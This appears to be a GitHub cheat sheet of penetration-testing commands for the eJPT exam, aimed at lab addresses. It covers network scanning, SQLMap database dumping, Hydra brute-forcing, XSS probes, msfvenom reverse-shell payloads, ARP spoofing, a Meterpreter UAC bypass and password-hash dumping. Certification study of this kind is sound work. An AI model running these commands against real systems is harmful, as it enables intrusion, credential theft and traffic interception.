# eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam.\

### Nmap
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial\
nmap -A -p- -iL targets -oN nmap.aggressive\
nmap -p<port> --script=vuln -v <target-IP>\

### fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null\

### IP Route
**Syntax**\
*ip route add "Network-range" via "router-IP" dev <interface>*\
eg.\
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0\

### John
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt\

### dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

### Netcat
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 <port>

### SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

### XSS
<script>alert(1)</script>\
<ScRiPt>alert(1)</ScRiPt>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*

### msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

### ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

### FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

### Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate <pid>\
hashdump
  
### Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "*.conf*\
dir /b/s "*.txt*

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users


